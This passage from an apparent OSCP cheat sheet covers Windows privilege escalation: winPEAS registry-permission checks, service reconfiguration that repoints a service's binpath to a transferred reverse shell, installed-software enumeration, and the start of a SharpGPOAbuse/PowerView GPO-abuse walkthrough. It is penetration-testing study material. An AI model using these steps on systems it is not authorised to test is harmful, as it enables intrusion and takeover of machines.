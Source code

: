 - outputs env variables:

`set`

**Finally run Winpeas + check for Vulnerable installed software and POWERUP**

**Weak Registry Perms from winPEAS**

- in winPEAS look for this vuln (next to list of vulnerable services)

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/47799c17-8d8a-4530-bf41-772c727aada5)

- Next open a powershell prompt and check permissions on groups, see if current user is in group

`Get-Acl <Registry_Path> | Format-List`

- If user is in group with RW, Full or Management cntrls, check if user can restart service in any way

checking for auto-start on restart
`Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}`

- or just `net stop` or `net start` and see if you can

- Next run `sc qc <service_name>` and look for “BINARY_PATH_NAME”

`sc qc <service_name>`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/39ebbe57-b8f0-4423-af23-794cdc71893c)

- Finally, change binpath to reverse shell transferred onto the device

`sc config <name> binpath= "\"C:\Windows\Temp\<reverse_shell>"”`

**Check installed packages**

`Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

`Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

**Always Check for symlinks exploit**

**SharpGPOabuse (For AD environments/machines)**

- If we have “all” access to edit GPO’s (we can check with powerview) we can used SharpGPOabuse to escalate pirvs

- To start `transfer PowerView.ps1 to the target system` and `run "powershell" in shell on target`

- Next start `PowerView.ps1`

`.\PowerView.ps1` 

- In PowerView run and copy the “`Id`”

`Get-GPO -Name “Default Domain Policy”`

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/284ce537-e6e9-4032-baad-02ce350eefa6)

